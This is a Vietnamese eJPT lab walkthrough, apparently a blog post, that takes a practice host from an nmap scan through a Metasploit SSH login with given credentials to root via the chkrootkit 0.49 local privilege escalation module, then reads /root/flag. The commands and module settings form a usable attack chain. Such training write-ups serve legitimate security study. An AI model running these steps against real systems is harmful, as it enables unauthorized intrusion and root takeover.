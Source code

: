 ```yaml
---
title: Privilege Escalation - Rootkit Scanner
published: 2025-06-08
tags: [eJPT, Linux, Privilege Escalation]
category: 'Learning'
draft: false 
---
```



# EJPT LAB: Privilege Escalation - Rootkit Scanner 
> Lỗ hổng trong `chkrootkit 0.49` là một lỗ hổng leo thang đặc quyền cục bộ (local privilege escalation) nghiêm trọng, xuất phát từ cách công cụ này thực thi một số lệnh hệ thống với quyền root mà không kiểm tra kỹ đường dẫn (PATH). Điều này cho phép kẻ tấn công – nếu đã có quyền truy cập như một người dùng thông thường – chèn mã độc vào thư mục như `/tmp`, sau đó chờ `chkrootkit` được chạy bởi cron hoặc dịch vụ khác. Khi đó, mã độc sẽ được thực thi với quyền root, từ đó cho phép kiểm soát toàn bộ hệ thống.
Lỗ hổng này đã được ghi nhận trong các hệ thống sử dụng `chkrootkit` phiên bản 0.49 trở về trước và là ví dụ điển hình cho việc chạy công cụ bảo mật với quyền cao có thể dẫn đến hậu quả nghiêm trọng nếu không được cấu hình an toàn.


## I. Truy cập vào máy Kali
Truy cập vào đường dẫn phòng lab đã được cung cấp để khởi động máy Kali.
![image](https://hackmd.io/_uploads/SyKVMkfmeg.png)

## II. Kiểm tra kết nối đến máy mục tiêu
Sử dụng lệnh `ping` để kiểm tra xem máy mục tiêu có đang hoạt động hay không:
```bash
ping -c 4 demo.ine.local
```
Lệnh này gửi 4 gói tin ICMP đến địa chỉ `demo.ine.local`. Nếu có phản hồi (reply), nghĩa là máy mục tiêu đang bật và có thể truy cập được – tiền đề để thực hiện các cuộc tấn công.
![image](https://hackmd.io/_uploads/B1MwGkfmxl.png)

## III. Quét cổng với Nmap
Ta sẽ quét các cổng đang mở để biết dịch vụ nào đang chạy trên máy mục tiêu:

```bash
nmap -sS -sV demo.ine.local
```
![image](https://hackmd.io/_uploads/rJE_zkzQll.png)


- `-sS`: Quét theo kiểu SYN (stealth scan), giúp quét nhanh và tránh bị hệ thống phát hiện do không hoàn tất bắt tay TCP.
- `-sV`: Phát hiện phiên bản dịch vụ đang chạy trên các cổng.

Thông tin này cực kỳ quan trọng trong giai đoạn **trinh sát (reconnaissance)** để xác định các điểm có thể khai thác.


## IV. Khai thác SSH với Metasploit

Sau khi biết được dịch vụ SSH đang mở, và có sẵn thông tin đăng nhập (`jackie:password`), ta sẽ sử dụng Metasploit – framework khai thác mạnh mẽ – để đăng nhập từ xa.

```bash
msfconsole
```
![image](https://hackmd.io/_uploads/HJT9fJzQeg.png)

Sau đó dùng mô-đun đăng nhập SSH:

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USERNAME jackie
set PASSWORD password
exploit
```

Nếu đăng nhập thành công, bạn đã **chiếm được quyền điều khiển máy mục tiêu với vai trò người dùng `jackie`**.
![image](https://hackmd.io/_uploads/H1CAM1fQxe.png)


## V. Tương tác với phiên shell

Khi phiên SSH đã được mở, bạn có thể tương tác trực tiếp với hệ thống:

```bash
sessions -i 1
```
![image](https://hackmd.io/_uploads/rJFyQyfQll.png)

Chạy:

```bash
ps aux
```
![image](https://hackmd.io/_uploads/rJOlQyMmex.png)

Lệnh này liệt kê toàn bộ các tiến trình đang chạy. Nếu thấy các dịch vụ hệ thống như `cron`, hoặc script lạ chạy định kỳ, có thể đó là điểm bắt đầu để thực hiện **leo thang đặc quyền (privilege escalation)**.

## VI. Phân tích script đáng ngờ

Ta thấy một bash script đang chạy có tên `/bin/check-down`. Kiểm tra nội dung nó:

```bash
cat /bin/check-down
```
![image](https://hackmd.io/_uploads/SkKWXkfXgg.png)

Script này đang chạy công cụ `chkrootkit` mỗi 60 giây. Đây là một công cụ quét rootkit phổ biến, nhưng **phiên bản cũ (0.49)** của nó có lỗ hổng bảo mật nghiêm trọng.

Xác định phiên bản và vị trí thực thi:

```bash
command -v chkrootkit
/bin/chkrootkit -V
```
![image](https://hackmd.io/_uploads/HJpGmJfmxl.png)

## VII. Khai thác leo thang đặc quyền với chkrootkit

Ta tra cứu với `searchsploit` để tìm khai thác cho chkrootkit:

```bash
searchsploit chkrootkit 0.49
```
![image](https://hackmd.io/_uploads/BkvmQJfQll.png)

Kết quả cho thấy có tồn tại **lỗ hổng leo thang đặc quyền (local privilege escalation)** trong phiên bản này. Lý do là `chkrootkit` chạy với quyền root và thực thi các file từ đường dẫn không an toàn (như `/tmp`), dẫn đến có thể chèn mã độc để chiếm quyền root.


## Tấn công và đọc flag

**Quan trọng:** Không đóng phiên shell đang tương tác. Dùng `CTRL+Z` để gửi về nền.

Sử dụng mô-đun Metasploit:

```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set session 1
set LHOST 192.60.22.2
exploit
```

Khi khai thác thành công, bạn đã trở thành người dùng `root` trên máy mục tiêu – mức cao nhất. Bây giờ bạn có thể truy cập mọi file, ví dụ như đọc cờ (flag):

```bash
cat /root/flag
```
![image](https://hackmd.io/_uploads/BJAHQkz7le.png)


